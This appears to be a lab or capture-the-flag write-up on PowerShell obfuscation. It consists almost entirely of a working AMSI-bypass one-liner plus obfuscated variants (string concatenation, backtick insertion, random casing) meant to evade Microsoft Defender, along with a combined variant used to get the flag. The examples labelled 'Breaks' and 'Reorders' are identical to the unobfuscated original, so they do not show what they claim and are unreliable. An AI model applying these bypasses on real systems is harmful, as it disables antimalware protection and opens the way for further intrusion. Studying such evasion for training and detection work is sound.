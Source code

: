 ![](/assets/img/Pasted image 20230115003554.png)

<u>Obfuscating a Powershell snippet until it evades Defender's detections</u>:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

<u>Types</u>:

- **Breaks** :

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

- **Reorders** : 

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

- **Whitespace** : 

```powershell
[Ref].Assembly.GetType('Sys' + 'tem.Mana' + 'gement.Automation.AmsiUtils').GetField('amsiIn' + 'itFailed','NonP' + 'ublic,Sta' + 'tic').SetValue($null,$true)
```

- **Ticks** : 

```powershell
[Ref].Assembly.GetType('Sys`tem.Mana`gement.Autom`ation.Amsi`Utils').GetField('amsiInit`Failed','Non`Pub`lic,Sta`tic').SetValue($null,$true)
```

- **Random Case** : 

```powershell
[Ref].Assembly.GetType('sySTeM.maNaGEmENT.AUtomAtION.AMsIUtILS').GetField('aMsiINiTfAiLed','NoNpUbLIC,stAtIC').SetValue($null,$true)
```

##### Get the flag:

- Content of the text file uploaded:

```
[Ref].Assembly.GetType('s`yS' + 'TeM.maNa' + 'GEmENT.AUt`omAtION.AMsIUtILS').GetField('aMsi`IN' + 'iTfA`iLed','NoNp' + 'UbLIC,`stA' +'tIC').SetValue($null,$true)
```

![](/assets/img/Pasted image 20230115005332.png)


----------
# Obfuscation's Function for Analysis Deception
